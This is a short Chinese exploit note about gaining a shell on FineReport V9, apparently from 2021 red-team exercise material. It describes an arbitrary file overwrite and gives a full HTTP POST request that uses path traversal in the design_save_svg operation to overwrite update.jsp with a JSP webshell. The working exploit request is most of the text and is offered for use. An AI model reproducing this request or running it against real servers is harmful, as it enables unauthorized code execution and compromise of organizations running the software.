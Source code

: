 ## 帆软 V9getshell

--------------来自hw2021----------------
FineReport V9
注意: 这个漏洞是任意文件覆盖，上传 JSP 马，需要找已存在的 jsp 文件进行覆盖 Tomcat 
启动帆软后默认存在的 JSP 文件:

```
POST	/WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp	HTTP/1.1
Host:	192.168.169.138:8080
User-Agent:	Mozilla/5.0	(Windows	NT	10.0;	Win64;	x64)	AppleWebKit/537.36	(KHTML,	like	Gecko)	
Chrome/81.0.4044.92	Safari/537.36
Connection:	close
Accept-Au:	0c42b2f264071be0507acea1876c74
Content-Type:	text/xml;charset=UTF-8
Content-Length:	675	

{"__CONTENT__":"jsp webshell","__CHARSET__":"UTF-8"}	

```
